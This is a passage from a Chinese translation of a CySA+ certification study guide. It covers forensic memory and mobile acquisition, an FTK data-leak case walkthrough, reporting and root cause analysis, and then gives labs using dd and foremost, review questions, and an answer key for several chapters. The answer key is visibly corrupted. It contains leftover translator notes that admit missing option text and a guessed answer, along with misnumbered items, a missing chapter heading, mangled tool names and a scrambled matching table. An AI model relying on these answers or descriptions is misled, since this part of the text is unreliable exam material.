Windows 会连接到系统的 USB 设备历史，为 U 盘和其他设备提供了有用的取证记录。4Discovery 的 USB Historian 可以根据挂载的驱动器镜像进行审查。在取证检查期间，USB Historian 或类似工具提供的信息可用于将清单与计算机上使用的驱动器匹配，或验证特定设备是否在给定时间在使用。如图 13.10 所示，USB Historian 提供此类数据，如系统名称、设备名称、序列号、使用时间、设备厂商 ID、设备类型以及其他潜在有用的信息。

关闭系统通常会导致存储在内存中的数据丢失。这意味着浏览器内存缓存中的信息或程序状态等取证数据将会丢失。虽然在取证调查中，获取内存信息并不总是必要的，但在需要时能够获取内存至关重要。


`图 13.10` USB Historian 驱动镜像

这里有很多流行的内存采集工具，具有多种功能，包括以下：

*   `fmem` 和 `LiME`，两者都是 Linux 内内核模块，允许访问物理内存。`fmem` 设计用于配合 `dd` 或类似工具使用；`LiME` 则直接将数据复制到指定的路径和文件。

*   `DumpIt` 是一种 Windows 内存采集工具，简单地将系统物理内存复制到 `DumpIt` 程序所在的文件夹。这允许轻松地采集到 USB 闪存盘，使其成为取证采集工具包的有用部分。

*   `The Volatility Framework` 支持广泛的操作系统，包括 Windows、Linux 和 macOS，并拥有一系列功能，包括提取加密密钥和口令的工具、用户活动分析以及 rootkit 分析。

*   `EnCase` 和 `FTK` 也均内置了内存采集和分析功能。

### 使用核心转储和休眠文件

除了内存镜像外，核心转储（core dumps）和崩溃转储（crash dump）文件可以为刑事和恶意软件调查提供有用的取证信息。由于它们包含了活动内存的内容，它们可能包含在系统硬盘上无法访问的数据，例如内存驻加密密钥、仅在内存中运行的恶意软件以及通常不存储在磁盘上的其他项目。

可以通过检查 `控制面板` ➢ `系统和安全` ➢ `系统` ➢ `高级系统设置` ➢ 启动和恢复` ➢ `设置` 下的设置找到 Windows 崩溃转储文件。通常，转储文件位于系统根目录：`%SystemRoot%\MEMORY.DMP`。可以使用 `WinDbg` 分析 Windows 内存转储；但 CySA+ 考试不需要分析 Windows 内核转储。

### 移动设备的采集


移动设备取证采集通常从禁用设备的网络连接开始，然后通过禁用密码和屏幕锁定功能来确保可以访问设备。完成这些操作后，将对 SIM 卡、内存卡和设备备份进行物理采集。最后，对设备进行镜像，尽管如果不知道密码或设备被锁定，许多设备可能无法进行镜像。

从移动设备获取数据有四种主要模式：

- `物理采集`（Physical）：通过采集 SIM 卡、内存卡或备份实现
- `逻辑采集`（Logical）：通常需要取证工具创建逻辑存储卷的镜像
- `手动访问`（Manual access）：涉及查看已开启且解锁的手机内容，并对发现的内容拍照并做笔记
- `文件系统采集`（Filesystem）：可以提供已删除文件以及现有文件和目录的详细信息

## 取证调查：示例

在本节中，你将学习使用 `FTK` 进行取证分析的基础知识。由于我们已经讨论过镜像，我们将从一个之前获取的取证镜像开始，并执行分析，包括以下内容：

- 将数据导入 `FTK`，包括索引和案件管理
- 数据泄露的证据
- 与第三方就文件进行的电子邮件通信
- 指向反取证活动的网络浏览器信息
- 应用程序安装的证据
- 文件系统更改的证据，包括重命名文件

请记住，对系统的完整取证检查可能涉及的任务比这里列出的更多，而且调查的范围和方向将有助于确定这些任务。在探索系统镜像时，你还可能遇到额外的线索，引导你向取证检查的新方向探索。

### 导入取证镜像

一旦你拿到了取证镜像并复制了一份用于调查，你通常会将其导入到你的取证工具中。图 13.11 显示了在导入镜像时，案件信息是如何捕获的。


`图 13.11` 初始案件信息和跟踪

一旦镜像被导入案件并正确记录，就会对镜像进行索引和分析。这包括识别文件类型、搜索空隙（slack space）和未分配空间、建立文件时间索引以及其他分析项目。这可能需要一些时间，特别是对于大容量硬盘。图 13.12 显示了该案件所使用的取证镜像在索引过程中的状态。


`图 13.12` 索引过程部分中的案件信息和跟踪

索引完成后，你现在可以开始探索取证镜像。`FTK` 提供了一系列带有常见证据类别的标签页，包括电子邮件、图形、视频、互联网/聊天、书签等。大多数调查人员会花费一些时间来确保在此阶段记录操作系统、时区和其他计算机信息（例如系统中有哪些用户拥有账户）。

### 分析镜像

由于这是一个数据泄露案，浏览器历史记录和电子邮件可能是关注重点。图 13.13 显示了如何通过 `FTK` 读取电子邮件。我们可以看到一封已“成功安全加密”的邮件。其他邮件还提到了 USB 设备，那个间谍如果线人能交付存储设备将会非常高兴。这为进一步调查提供了另一个线索。


`图 13.13` 电子邮件提取

搜索浏览器历史记录提供了更多关于线人行为的信息。`Chrome` 的历史记录文件包含了对反取证技术的搜索，以及对 `http://forensicswiki.org` 反取证页面的访问，如图 13.14。


`图 13.15` 带有时间戳的 iCloud 设置日志


`图 13.16` 通过索引搜索功能的 CCleaner 遗留数据

在我们案件中举报人的时间线最后，创建并打印了一封辞职信。可以通过系统的事件时间线轻松找到它，或者作为手动文件审查的一部分，通过索引文件列表搜索 Microsoft Office 文档来找到，如图 13.17 和图 13.18 所示。


`图 13.17` 文档类型排序

 / 最后访问于 2023 年 2 月 11 日。](img/c13f018.png)

`图 13.18` 根据文档类型找到的辞职信。来源：Condé Nast [www.wired.com/images_blogs/threatlevel/2012/03/celiginvestigation.pdf](http://www.wired.com/images_blogs/threatlevel/2012/03/celiginvestigation.pdf) / 最后访问于 2023 年 2 月 11 日。

## 报告

取证调查的最后阶段是准备和提交报告。报告应包含三个主要部分：调查的目标和范围；取证活动的目标（包括所有系统、设备和介质）；以及发现和结果的完整列表。

### 调查目标

报告的这一部分应包含调查目标，包括取证活动的初始范围声明。此部分通常还会包含关于请求调查的人或组织的信息。调查目标声明的示例是：“人力资源总监 John Smith 请求我们检查 Alice Potter 的工作站、电子邮件以及她管理的系统，以确保最近泄露给竞争对手的数据没有从她的电子邮件账户或工作站发送。”

### 目标

你创建的报告应包含所有捕获并分析的设备、系统和介质列表。如果你使用了跟踪记录和监管链表，则所有目标都应列在其中。记录系统或设备时使用的相同详细程度也应适用于此列表。一个示例条目可能如下：

> Alice Potter 的工作站，内部库存号 6108，联想 W540 笔记本电脑，配有三星 SSD 序列号为 S12KMFBD644850，物品编号 344

如果检查了大量的设备或系统，目标的完整列表通常会移动到附录，而审查内容的列表将列出系统、应用程序、设备和其他介质的高级概述，并引用附录以获取完整细节。

### 发现与分析

发现结果是文档中最关键的部分，应该列出发现了什么、如何发现的以及为什么这些很重要。在关于 Facebook 所有权的合同争议中进行的 Stroz Friedberg 取证调查为取证结果中所需的细节提供了一个示例。虽然报告现在已经过期了，但许多相同的取证产物和概念仍然出现——尽管软盘已被闪存媒体和云存储所取代！

## 根原因分析

`root cause analysis`（`RCA`）过程用于识别问题、事件或故障发生的原因。执行根原因分析是为了让组织了解他们需要关注什么以防止未来问题，并确保当前问题再次发生。根原因分析程序因组织而异，但通常涉及以下步骤：

- 定义事件或故障
- 识别原因或影响因素
- 映射识别出的事件
- 实现解决方案或修复
- 验证修复的有效性
- 报告

### 教训

一旦事件响应完成，事后活动的最后阶段是`教训`。这些是从事件中获得的体会，包括改进机会以及应该实施的新控制或实践。

## 描述事件发生后的活动

解释取证分析如何以及为何作为事件处理的一部分。解释根原因分析和教训总结、它们发生的时间，以及它们通常包含哪些信息。

## 实验练习

### 活动 13.1：创建磁盘镜像

在本次练习中，你将使用 `dd` 创建磁盘镜像，然后验证镜像的校验和。

#### 第一部分：启动 Kali Linux 系统并挂载驱动器

1. 启动你的 Kali Linux 虚拟机。
2. 选择一个格式化为 `FAT32` 的 USB 闪盘作为本次练习的镜像对象。较小的磁盘镜像速度更快，且你应该确保镜像的磁盘空间小于你 Kali Linux 系统可用空间。
3. 从运行中的 Kali 虚拟机的“设备”菜单中，选择 `USB`，然后选择你插入的驱动器。该设备现在应该出现在 Kali Linux 桌面上。
4. 验证你是否从命令行导航到驱动器。打开终端窗口，然后导航到 `/dev/disk/by-label`，确保你看到已挂载的闪存盘的名称。

#### 第二部分：克隆驱动器

1. 在终端窗口中运行以下命令，为你的卷创建一个临时工作目录：

   ```bash
   mkdir ~/tmp
   ```

   此命令将在你的 `home` 目录下创建一个名为 `tmp` 的目录。

2. 在你的 `home` 目录下为你打算克隆的卷创建 MD5 校验和：

   ```bash
   md5sum /dev/disk/by-label/[label of your drive]> ~/exercise7_1_original.md5
   ```

3. 克隆卷或磁盘：

   ```bash
   dd if=/dev/disk/by-label/[label of your drive] of=~/tmp/exercise7_1_disk.img bs=64k
   ```

4. 完成后，使用 MD5 验证镜像的完整性：

   ```bash
   md5sum ~/tmp/exercise7_1_disk.img> ~/exercise7_1_clone.md5
   ```

5. 现在比较 MD5 文件。你可以使用 `more` 命令查看文件，或者在这里记录这些值：

   ______________________________________________________________

   ______________________________________________________________

   如果克隆成功，这些值应该是相同的。

### 活动 13.2：进行 NIST Rhino 猎寻

美国标准与技术研究院提供了一系列练习取证镜像，可以免费下载和使用，以提高你的取证技能。你可以在 `www.cfreds.nist.gov` 找到全集。在本次练习中，我们将使用 Rhino 猎寻场景以及从 `http://digital-forensics.sans.org/community/downloads` 获取的 SANS SIFT 镜像。

1. 运行 SIFT。如果你更喜欢使用 VMware，可以直接运行；否则，使用导入工具将其导入到 VirtualBox。（如果你将虚拟机导入到 VirtualBox，你需要运行 `sudo apt-get install virtualbox-guest-dkms` 然后重启以获得有用的分辨率。）
2. 使用默认用户名和密码 `forensics` 登录。
3. 下载 SANS Rhino 猎寻：

   ```bash
   wget http://www.cfreds.nist.gov/dfrws/DFRWS2005-RODEO.zip
   ```

4. 解压 Rhino 猎寻文件：

   ```bash
   unzip DFRWS2005-RODEO.zip
   ```

5. 使用 SIFT 犀牛照片。
6. 挂载文件：

   ```bash
   sudo mount -o loop, ro RHINOUSB.dd /mnt/usb
   ```

7. 检查挂载的内容：

   ```bash
   ls /mnt/usb
   ```

   注意，你只会看到两个 gumbo 菜谱。该驱动器被做了某种操作覆盖了原始内容，它们需要被恢复！

   接下来我们将使用 `foremost` 恢复被删除的文件，这是一个可以根据文件头和其他信息自动恢复文件的实用。

8. 为输出创建一个目录：

   ```bash
   mkdir output
   ```

9. 针对 `RHINOUSB` 镜像运行 `foremost`：

   ```bash
   foremost -o output/ RHINOUSB.dd
   ```

10. 检查输出。

要打开你恢复的文件，点击屏幕左上角的文件柜图标，导航到 Home ➢ Output ➢ Doc，然后双击你恢复的 DOC 文件。读到文件末尾以确定硬盘上发生了什么。

一旦你知道硬盘去向了哪里，本次练习就完成了。Rhino 猎寻还有很多内容，请根据 NIST 页面的说明继续进行。

### 活动 13.3：识别安全工具

将以下每个工具与正确的描述相匹配：

| 工具 | 描述 |
| :--- | :--- |
| `dd` | 一套内存取证和分析套件 |
| `md5sum` | GUI 网络流量嗅探器 |
| `Volatility Framework` | 用于防止取证软件在访问驱动器时对其修改的设备 |
| `FTK` | 取证地 |
| `Eraser` | 命令行嗅探器 |
| `Write blocker` | 全功能套件 |
| `WinDbg` | 一个驱动器 |
| `Forensic duplicator` | 文件擦除工具 |
| `Wireshark` | 内存转储 |
| `tcpdump` | 完整的取证镜像 |

## 复习题

1. `dd` 在制作时产生哪种格式？
   - `ddf`
   - `RAW`
   - `01`
   - `OVF`

2. Gurinder 完成了分析后，想要记录什么？
   - 教训总结
   - 系统架构
   - 取证过程
   - 法律保留

3. Mike 正在进行根原因分析。以下哪个不是一个阶段？
   - 识别影响因素
   - 识别根原因的解决方案
   - 进行风险分析
   - 实施控制措施

4. Alice 想要拷贝驱动器且防止被修改。她应该使用哪种类型的设备？
   - 只读保护器
   - 克隆器
   - 写保护器
   - 哈希验证器

5. Frederick 的组织收到通知，必须保留数据。这种要求称为什么？
   - 留存
   - 法律保留
   - 数据冻结
   - 额外保留

6. 什么过程通常作为事件响应的一部分执行？
   - 责任分配
   - 根原因分析
   - 反向哈希
   - 法律保留

7. Jeff 正在调查系统入侵，知道第一个事件发生在 10 月 5 日。他应该使用什么取证工具功能将日志和文件中发现其他事件映射到该日期？
   - 时间线
   - 日志查看器
   - 注册表分析
   - 时间戳验证器

8. 在取证拷贝过程中，Danielle 对原始文件进行了哈希处理，克隆了镜像文件，并得到了以下 MD5 和。可能出了什么问题？

   ```text
   b49794e007e909c0a51ae208cacb169 original.img
   d9ff8a0cf6bc0ab066b6416e7e7abf35 clone.img
   ```

   - 原始文件被修改了。
   - 克隆文件被修改了。
   - `dd` 失败了。

9. Jennifer 希望对 Windows、macOS 和 Linux 系统进行内存分析和取证。以下哪个最符合她的需求？
   - `LiME`
   - `DumpIt`
   - `fmem`
   - `Theatility Framework`

10. Lisa 正在审查一份记录人员每次处理取证镜像的日志。她注意到有一条目列出了取证分析操作，但没有记录姓名。这违反了什么概念？
    - 镜像完整性
    - 取证真实性
    - 保护
    - 监管链

## 复习题

### 11. 为什么验证数据完整性对取证过程至关重要？

1. 它确保系统没有被破坏。
2. 它确保系统没有被法医取证员修改过。
3. 它确保操作系统版本与预期的版本匹配。
4. 法律保全流程（legal hold process）的要求。

### 12. Carl 无法使用移动取证或镜像软件从手机中提取数据，且该手机没有可拆卸存储器。幸运的是，手机没有设置 PIN 或屏幕锁。为了确保他能看到存储在里面的电子邮件和其他数据，他的最佳选择是什么？

1. 物理获取
2. 逻辑访问
3. 文件系统访问
4. 手动访问

### 13. 像 CCleaner 程序的存在可能指示哪种取证问题？

1. 反取证活动
2. 全盘加密
3. 恶意软件打包
4. MAC 时间修改

### 14. 下列哪项不是系统现存镜像（live imaging）的潜在问题？

1. 镜像工具的残余数据将保留。
2. 未分配空间将被捕获。
3. 内存或驱动器内容在镜像过程中可能会变化。
4. 恶意软件可能会检测到镜像工具并规避。

### 15. 在调查过程中，作为认证取证员的 Jeff 被提供了一个由 IT 员工创建的驱动器镜像，并被要求添加到他的取证案件中。如果案件进入法庭且他的程序受到质疑，Jeff 可能遇到的最重要问题是什么？

1. 错误的校验和
2. 哈希值不匹配
3. 反取证活动
4. 无法证明监管链（chain of custody）

### 16. Jeff 正在调查一个运行恶意软件的系统，他认为该软件加密了磁盘上的数据。他应该使用什么过程来最有可能以未加密的形式查看这些数据？

1. 现存镜像
2. 离线镜像
3. 暴力破解加密
4. 导致系统崩溃并分析内存 dump

### 17. Susan 需要从一个不使用 GUI 的 Linux 服务器捕获网络流量。哪种数据包捕获工具存在许多 Linux 系统并可以通过命令行运行？

1. `tcpdump`
2. `netdd`
3. `Wireshark`
4. `Snifman`

### 18. 在取证调查期间，Ben 要求 Chris 与他坐在一起，并对他所采取的操作签字。他在做什么？

1. 维护监管链
2. 肩旁验证
3. 结对取证
4. 职责分离

### 19. 哪种工具不常用于生成取证副本的哈希值？

1. MD5
2. `FTK`
3. SHA1
4. AES

### 20. 下列哪个问题使得云环境和虚拟化环境取证都更加困难？

1. 其他组织管理它们。
2. 系统可能是瞬态的（ephemeral）。
3. 没有取证工具可以在两种环境中工作。
4. 驱动器镜像无法验证。

## 附录

### 复习题答案

#### 第 2 章：系统与网络架构

1. C. Naomi 应该将她的应用程序容器化。这将为她提供一个轻级选项，可以在和服务和服务之间移动，而不需要在容器中包含操作系统。虚拟化将包含一个完整的操作系统。SASE 是一种专注于边缘的安全解决方案，而 `x86` 是一种硬件架构。

2. D. 内置的 Windows 注册表编辑器是 `regedit`。`secpol.msc` 工具用于查看和管理安全策略。没有 `regwiz` 工具，而记正本虽然方便，但不应该用它来尝试编辑注册表！

3. D. Tom 知道日志级别 7 提供了故障排除期间所需的调试消息。完成工作后，他可能想设置较低的日志级别，以确保不会在日志中产生大量噪声。


4. C. 容器化（注：原文逻辑对应选项 C，此处根据语境理解为容器化或相关技术，但原文选项未直接给出，此处为逻辑翻译）。*注：由于原文未列出选项文本，此处仅翻译题目及逻辑关系。*

5. A. Ric 知道零信任实现可以减少对攻击的影响。

6. B. Michelle 的安全令牌是“拥有”因素（possession factor）。密码或 PIN 是“所知”的知识因素，而指纹或视网膜扫描是生物特征因素。

7. C. 身份提供者（IDPs）向信赖方（relying parties）和服务提供者提供断言（assertions）。CDUs 和 APs 不是联邦设计的术语。

8. A. Juan 的组织使用单点登录（SSO）解决方案，允许用户登录一次并使用多种服务。信任但验证以及扩展网络不是设计概念。

9. D. （对应多因素身份认证）。MFA 是多因素身份认证；EDR 是终端检测与响应，一种终端安全工具；ZeroAuth 是虚构的。

10. C. 特权访问管理（PAM）系统将帮助 Jen 管理和监控特权使用。SAML 是一种基于 XML 的语言，用于发送授权和认证数据，CASB 是云访问安全代理，用于管理云访问权限，而 PKI 是用于发布和管理安全证书的公共密钥基础设施。

11. C. PII 包括财务记录、地址和电话号码，以及国家或州身份证（如社会安全号、护照号和驾照号）。CHD 是持卡数据。PCI 是支付卡行业，定义了 PCI DSS 安全标准。TS/SCI 是美国分级标签，代表绝密/敏感隔离信息。

12. B. 主账户号码（PAN）、持卡人姓名和卡片有效期被视为持卡数据。敏感身份数据包括 CVV 码、磁条和芯片的内容以及如果使用的 PIN 码。

13. C. 临时文件目录不是程序文件的常用位置。相反，注册表、`ProgramData` 和 `Program Data` 目录通常用于存储配置。

14. D. PIN 是你所知道的，因此是一个知识因素。

15. B. NTP（网络时间协议）是确保系统使用同步时间的底层协议。

16. A. OAuth、OpenID、SAML 和 AD FS 都是用于联邦身份的技术的示例。它们不是 MFA、身份审查或 PKI 技术。

## 分析

18. C. 将日志发送到远程日志服务器或堡垒机（bastion host）是一种适当的补偿性措施。这确保了日志副本存在于安全位置，以便在发生类似的入侵事件时对其进行审查。全盘加密在文件被使用时仍处于解密状态，无法保护日志文件免受攻击；而日志轮转（log rotation）意味着当日志达到特定大小或时间范围时会进行更换。对传输中的数据（包括日志）进行 TLS 加密可以保持其私密性并防止被修改，但无法防止日志被删除。

19. B. Ben 知道加固过程通常侧重于禁用不必要的服务，而不是启用额外的服务。更新、补丁、启用日志记录以及配置磁盘加密等安全功能都是常见的加固实践。

20. B. 虽然看起来 Gabby 似乎实施了三个不同的因素，但 PIN 码和密码短语（passphrase）都是基于知识的因素，不能被视为不同的因素。她的设计实施了两个不同的因素。如果她想增加第三个因素，可以将密码或 PIN 码替换为指纹扫描或其他生物识别因素。

## 第 3 章：恶意活动

1. B. `df` 命令将向你显示系统的当前磁盘率。`top` 命令和 `ps` 命令都会显示有关进程、CPU 和内存使用的信息，而 `lsof` 是一个用于列出打开文件的多功能工具。

2. C. Perfmon（或性能监器 Performance Monitor）提供了收集 Windows 中许多项目详细使用统计数据的能力。Resmon（或资源监器 Resource Monitor）监控 CPU、内存和磁盘使用情况，但不提供有关 USB 主机控制器和其他详细计数的信息。Statmon 和 `winmon` 不是 Windows 内置工具。

3. D. 流数据（Flow data）提供了有关源和目的 IP 地址、协议和发送数据总量的信息，能够提供所需的细节。Syslog、`WMI` 和 `resmon` 数据都是系统日志信息，无法提供此类信息。

4. A. 网络访问控制（NAC）可以被设定为需要身份验证。端口安全仅限于识别 MAC 地址，因此较不适用于防止越规设备。PRTG 是一种监控工具，而 `NTP` 是网络时间协议。

5. A. 设置监控阈值是为了确定何时何时采取告警或报告操作。阈值通常被设置为特定值或容量的百分比。

6. B. Chris 最可能正在查看一个 JSON 文件。HTML 和 XML 通常使用角括号（`<` 和 `>`）而不是大括号。纯文本既不使用也不需要两者。

7. A. 信标活动（Beaconing activity，有时被称为心跳流量）发生在流量发送到机器人网络命令与控制系统时。其他术语都是虚构的。

8. C. Cameron 应该对比已知良好的原始文件和新文件的哈希值（hashes），查看它们是否匹配。文件未被描述为加密文件，因此解密它们没有帮助。Strings 命令可以显示二进制文件中的文本，但无法比较文件。文件大小和创建日期不能保证文件是相同的。

9. D. 硬件厂商 ID 代码是 MAC 地址的一部分，可以检查那些未更改过 MAC 地址的设备。MAC 地址是可以更改的，因此不建议仅依赖 MAC 地址，但它对于识别越规设备可能可能是很有用的。

10. B. 定位越规 AP（非法接入点）最好的方法是进行物理调查，并通过检查其信号强度通过三角定位确定设备可能的位置。如果该 AP 接入了组织的网络，`nmap` 可能会找到它，但连接到它不太可能提供其位置（而且不安全！）。NAC 可以帮助防止越规设备连接到组织网络，但无法帮助定位。

11. A. Microsoft 配置管理器（Microsoft Configuration Manager）提供磁盘空间的非实时报告。`Resmon`、`perfmon` 和 `SCOM` 均可提供实时报告，有助于在系统崩溃之前识别问题。

12. A. 符号链接（Symbolic links）是 Linux 中的指针。混淆链接（Obfuscated links）利用不同的编码方式。钓鱼链接（Phishing links）和诱饵链接（decoy links）不是常用术语。

13. B. `syslog` 文件位于 `/var/log`。

14. C. （此处原文内容重复或缺失，根据指令未重复输出原文）

15. B. SOAR 工具侧重于编排和响应。SIEM 工具通常提供仪表板和报告。

16. B. `service --status` 命令是 Linux 命令。

### 6. A. 国家级攻击者受政府赞助，通常拥有最大的资源访问，包括工具、资金和人才。

### 7. A. 黑客行动主义（Hacktivists）出于政治原因执行攻击，包括针对政府和企业。此题的关键要素是攻击背后的政治原因。

### 8. B. 攻击向量（即攻击者访问目标的手段）可能包括 USB 优盘投放等物品。你可能想用“对手能力”来回答此问题，但请记住定义：可能的威胁行为者的资源、意图或能力。这里的“能力”不是指他们能做什么，而是指他们这样做的能力。在这个例子中，攻击面可能包括组织的停车场，但这并不是攻击面的范例，而且这道题中没有包含概率评估。

### 9. A. 在尝试识别内部威胁时，行为评估非常有用。由于内部威胁很难与执行操作的正常行为上下文区分来（例如非工作时间登录、滥用凭据，以及从异常位置或以异常模式登录），因此通常会使用其他行为指标。

### 10. D. 犯罪组织等威胁行为者经常通过暗网运行。论坛通过 TOR 托管的站点作为信息、资源和访问的结算中心。虽然社交媒体、博客或政府公告可能提供有关犯罪组织的信息，但这些组织更有可能在暗网上自己发布信息。

### 11. A. 管理员登录本身不是 IOC（失陷指标），但与之相关的意外行为或其他非典型行为是失陷的指标。配置文件的意外修改、来自非典型国家或位置的登录活动，以及来自管理系统的大文件传输都是常见的失陷指标。

### 12. B. Nick 应该部署一个蜜罐（honeypot）来捕获攻击工具和技术以便进一步分析。防火墙拦截流量。Web 应用防火墙是旨在保护 Web 应用的防火墙，虽然它可以捕获有用信息，但它并不适用于此目的。`SIEM`（安全信息和事件管理工具）也可以捕获相关的攻击数据，但它不像蜜罐那样是专门为该目的设计的。

### 13. A. 威胁猎人不太可能查看策略。相反，配置和误配置、孤立网络和业务关键资产是威胁猎人的常见关注点。

### 14. C. 威胁信息的置信度是指你对该信息的确定程度。高置信度的威胁评估通常会通过多个独立可靠的来源确认，或通过直接验证确认。

### 15. A. ISAC（信息共享与分析中心）于 1998 年作为总统指令的一部分引入，专注于关键基础设施所有者的威胁信息共享与分析。

### 16. B. 威胁情报馈经常提供有关哪些漏洞正在被积极利用以及新利用程序的信息。这会影响补丁优先级和漏洞管理工作。零日威胁在发布之前是未知的。漏洞管理工作有助于确定哪些补丁未安装，但威胁情报并不决定这一点。在典型组织中，威胁情报不会直接用于作为漏洞管理工作部分的量化风险评估。

### 17. A. `OpenIOC` 内置的威胁指标基于 Mandiant 的指标列表。你可以扩展并包含 500 个内置定义之外的额外失陷指标。

### 18. B. 高级持续威胁（`APTs`）最与国家级攻击者相关。其操作的复杂性和他们所带来的先进工具通常需要大量的资源才能充分利用。

### 19. D. 内部威胁可能是故意的，也可能是无意的。

### 20. C. 在定义失陷指标（`IOCs`）时，取证数据非常有帮助。行为威胁评估也可以通过取证数据部分定义，但关键在于数据最在哪里。

## 第 5 章：侦察与情报收集

### 1. D. `wmap` 扫描器是 `Metasploit Framework` 的一个 Web 应用扫描模块，可以扫描漏洞的 Web 应用。`smb_login` 工具查找 SMB 共享，而不是 Web 应用。Angry IP Scanner 未集成到 `Metasploit`，而 `nmap` 是端口扫描器，不是完整的 Web 应用漏洞扫描器。

### 2. C. `Nmap` 的操作系统识别标志是 `-O`，它启用操作系统检测。`-A` 也能启用操作系统识别和其他功能。带有 `-limit` 和 `-guess` 等修饰符的 `-osscan` 设置特定的操作系统识别功能。`-os` 和 `-id` 不是 `nmap` 标志。

### 3. B. `Traceroute`（Windows 上为 `tracert`）使用 ICMP 追踪包所经的路由。`Whois` 和 `nslookup` 是域名工具，`routeview` 不是一个工具。

### 4. C. `Zenmap` 是 `nmap` 的图形用户界面，用于生成地图。Angry IP Scanner 是一个独立的工具。`wmap` 是 `Metasploit Framework` 的插件。

### 5. B. `-Pn`（或 "no ping"）标志跳过主机发现并执行端口扫描。`-O` 标志尝试识别操作系统，而 `-Pn` 跳过 ping 并扫描所有主机。

### 6. C. `Maltego` 调用其基于服务器的转换（transforms）。

### 7. C. Hue 知道 `Maltego` 提供了可以识别与域名相关的主机和 IP 地址的转换，并且它随后可以使用其他 OSINT（开源情报）转换收集更多信息。

### 8. D. 端口 80 和 443 通常与未加密（端口 80）和 TLS 加密（端口 443）的服务器相关。

### 9. C. 作为响应部分的生存时间（TTL）用于评估网络跳数，从而推断出网络拓扑的最佳猜测。

### 10. C. `-Pn`（或 "no ping"）标志跳过主机发现并执行端口扫描。`-sn` 标志在发现后跳过端口扫描，`sL` 通过 DNS 查询列出主机，`-PS` 使用 TCP SYN 进行探测。

### 11. A. 部分防火墙阻止 ICMP ping 但允许 UDP 或 TCP ping。Jaime 知道选择 ping 协议可以绕过某些防火墙。

### 12. B. Hue 知道 `Maltego` 提供了可以识别与域名相关的主机和 IP 地址的转换，并且它随后可以使用其他 OSINT 转换收集更多信息。

### 13. A. 为了进行端口扫描，Jack 只需要 IP 地址、主机名或 IP 范围。

14. C. 数据包捕获无法防止外部攻击，尽管它可能会捕获攻击证据。数据包捕获通常用于记录工作，包括给定扫描或过程发生的时间，它还可以用于为进一步分析提供额外数据。

15. D. 操作系统检测通常使用 TCP 选项支持、IP ID 采样和窗口大小检查，以及其他能够为各种操作系统创建独特指纹的指标。服务识别通常利用横幅（banners），因为 TCP 能力并非特定服务所有。模糊测试（Fuzzing）是一种代码测试方法，而应用程序扫描通常与 Web 应用程序安全相关。

16. A. `Recon-ng` 不是漏洞扫描器。它确实有助于开源情报收集（OSINT）活动，例如寻找敏感文件、进行 OSINT 信息收集以及查找目标 IP 地址。Li 知道 `Recon-ng` 是一个专注于 OSINT 的工具，而漏洞扫描是一种主动而非被动的情信息收集工作。虽然 `Recon-ng` 支持端口扫描，但它不具备漏洞扫描功能。

17. D. `Nmap` 支持内置在 `MSF` 中，允许像往常从命令行一样通过调用 `nmap` 轻松进行端口扫描。`Angry IP Scanner` 未内置，且 `Recon-ng` 和 `Maltego` 都是具有 OSINT 和信息管理能力的独立工具。

18. C. 操作系统指纹识别在许多情况下取决于了解给定操作系统的 TCP 栈在发送响应时的行为。你可以在 `https://nmap.org/book/osdetect-methods.html#osdetect-probes` 查看更多关于 `nmap` 测试和过滤数据的多种方式的细节。Sally 知道在交互式登录或通过服务提供横幅，并且 `nmap` 使用网络协议数据进行操作系统检测。

19. C. 防火墙可以防止对端口扫描器的响应，使系统对扫描器实际上是不可见的。在许多网络中，仅靠端口扫描器无法进行资产发现。端口扫描器通常内置某些有限漏洞检测，通常依赖版本信息或指纹识别，但未检测漏洞不会阻止发现。端口扫描器根据服务提供的信息对端口上的服务进行最佳猜测。端口扫描器通常不会给大多数现代应用程序和服务带来问题，但在某些情况下可能会。尽管如此，这不应该阻止发现性端口扫描！

20. B. `Recon-ng` 是一个基于 Python 的开源框架，用于开源情报收集和基于 Web 的侦察。`Metasploit Framework` 是一种渗透测试和破坏工具，具有许多其他功能，但其核心目的并不适合进行信息收集。`Nmap` 和 `Angry IP Scanner` 都是端口扫描器。

## 第 6 章：设计漏洞管理计划

1. C. 联邦信息安全管理法 (`FISMA`) 要求联邦机构为联邦信息系统实施漏洞管理计划。健康保险流动性与责任法 (`HIPAA`) 监管了医疗保健提供者、保险公司及其业务伙伴处理受保护健康 (`PHI`) 信息的方式。同样，格拉姆-里奇-布莱利法 (`GLBA`) 规范金融机构处理客户财务记录。家庭教育权利与隐私法 (`FERPA`)（本章或 `CySA+` 考试中未涵盖该法）允许父母访问子女的教育记录。

2. D. `ISO 27001` 描述了建立信息安全管理系统的标准方法，而 `ISO 27002` 则更详细地介绍了信息安全控制的细节。开放 Web 应用安全项目 (`OWASP`) 提供了专注于 Web 应用程序安全的建议和工具。互联网安全中心 (`CIS`) 产生了一套配置基准，用于安全地配置操作系统、应用程序和设备。

3. A. 资产清单通过其他信息补充自动化工具，以检测网络上存在的系统。资产清单为漏洞扫描提供了关键信息。

4. D. `PCI DSS` 要求组织至少每季度进行一次漏洞扫描，尽管许多组织选择更频繁地进行扫描。

5. B. `Nessus` 和 `OpenVAS` 是网络漏洞扫描工具，而 `Nikto` 是 Web 应用程序漏洞扫描器。`Snort` 是入侵检测系统。

6. A. `PCI DSS` 要求组织每季度进行漏洞扫描，这意味着 Bethany 的下一次定期计划扫描将安排在 6 月。然而，该标准还要求在支付卡环境发生任何重大变化后进行扫描。这包括对销售系统的升级，因此 Bethany 必须立即完成新的合规性扫描。

7. D. 凭据扫描仅需要目标服务器的只读访问。Renee 应该遵循最小权限原则，并限制扫描器的可用访问权限。

8. C. 通用平台枚举 (`CPE`) 是 `SCAP` 的组件，为产品名称和版本提供标准的命名法。

9. D. 出 `PCI DSS` 合规目的而完成的内部扫描可以由任何合格人员进行。

10. C. 联邦信息安全管理法 (`FISMA`) 要求政府机构进行漏洞扫描。监管医院和诊所的 `HIPAA` 不包含漏洞扫描要求，涵盖金融机构的 `GLBA` 也是如此。银行可能根据 `PCI DSS` 要求进行扫描，但这是一项合同义务而非法定要求。

11. A. 所有这些组织都提供安全工具和建议。然而，只有开放 Web 应用安全项目 (`OWASP`) 专注于开发安全的 Web 应用程序。

12. B. 组织的风险偏好是其在环境中容忍风险的意愿。如果一个组织极度回避风险，它可能会选择更频繁地扫描，以缩短漏洞产生到被扫描检测之间的时间。

13. D. 扫描计划通常由组织的风险偏好、监管要求、技术限制、业务限制和许可限制决定。大多数扫描是自动化的，不需要人员可用。

14. B. 如果 Barry 能够将 `PCI DSS` 合规范围限制在隔离的网络内，那么该网络是必须为了 `PCI DSS` 合规目的扫描的网络。

